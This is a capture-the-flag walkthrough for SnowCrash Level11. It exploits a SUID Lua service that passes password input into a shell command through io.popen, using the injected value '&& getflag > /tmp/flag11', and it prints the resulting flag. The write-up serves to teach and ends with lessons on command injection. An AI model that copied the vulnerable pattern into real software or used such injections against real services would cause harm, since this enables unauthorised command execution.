 # SnowCrash Level11 Walkthrough

## Challenge Description

Exploit a command injection vulnerability in a Lua script that improperly sanitizes user input for a password hashing function.

## Initial Analysis

```bash
level11@SnowCrash:~$ ls -all
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
```

## Files

- `level11.lua`: SUID script (runs as flag11)
- Listening on: `localhost:5151`

## Understanding the Vulnerability

### 1. Port Identification

When executing the script:

```bash
level11@SnowCrash:~$ ./level11.lua
lua: ./level11.lua:3: address already in use
stack traceback:
        [C]: in function 'assert'
        ./level11.lua:3: in main chunk
        [C]: ?
```

```bash
cat level11.lua
# we can see : local server = assert(socket.bind("127.0.0.1", 5151))
```

### 2. Connect to the Service

```bash
nc localhost 5151
Password: test
Erf nope..
```

### 3. Code Analysis

```bash
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

The dangerous function:

```bash
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")  # Vulnerable concatenation
  -- ...hash processing...
end
```

1. The script takes password input via client:receive()
2. Input is directly inserted into a shell command:

```bash
echo [OUR_INPUT] | sha1sum
```

### 4. Step-by-Step Exploit

1. Prepare injection:

```bash
nc localhost 5151
Password: && getflag > /tmp/flag11
```

- The && terminates the echo command
- Output redirects to /tmp/flag11

2. Verify execution:

```bash
cat /tmp/flag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

## Security Lessons

- **Command Injection**: Never concatenate user input into shell commands
- **Input Sanitization**: Use allow-lists or proper escaping

## Next Steps

With the flag fa6v5ateaw21peobuub8ipe6s, we can now proceed to Level12 of the SnowCrash challenge.
